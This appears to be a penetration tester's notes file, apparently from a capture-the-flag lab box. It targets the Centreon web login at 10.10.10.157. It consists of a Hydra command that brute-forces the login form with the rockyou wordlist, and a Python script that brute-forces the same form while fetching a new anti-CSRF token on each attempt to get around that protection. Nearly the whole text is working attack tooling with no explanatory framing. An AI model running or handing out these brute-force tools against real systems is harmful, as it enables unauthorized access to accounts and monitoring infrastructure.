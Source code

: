 # http post

# Hydra 
hydra -l admin -P ../../00ToolBox/Lists_Dictionnaires/rockyou.txt 10.10.10.157 http-post-form "/centreon:centreon_token=ae58b124ee170796a6ea896175376c5b&submitLogin=Connect&useralias=^USER^&password=^PASS^:F=incorrect."



# web python3 avec contournement de token anti-CSRF

```
import requests
import sys
import warnings
from bs4 import BeautifulSoup

# turn off BeautifulSoup warnings
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

url = 'http://10.10.10.157/centreon'

users = ['admin']
with open('/home/michael/Documents/Projets/00ToolBox/wordlists/rockyou100.txt') as f:
    passwords = f.read().splitlines()


request = requests.session()
print("[+] Retrieving CSRF token to submit the login form")
page = request.get(url+"/index.php")
html_content = page.text
soup = BeautifulSoup(html_content)
token = soup.findAll('input')[3].get("value")

for user in users:
    for password in passwords:

        login_info = {
            "useralias": user,
            "password": password,
            "submitLogin": "Connect",
            "centreon_token": token
        }
        login_request = request.post(url+"/index.php", login_info)
        print("[+] Login token is : {0}".format(token))
        if "Your credentials are incorrect." not in login_request.text:
            print("[+] Logged In Sucssfully")
            print("[+] Retrieving Poller token")
            print(user+':'+password)
            exit()
        html_content = login_request.text
        soup = BeautifulSoup(html_content)
        token = soup.findAll('input')[3].get("value")
        print(user+':'+password)


```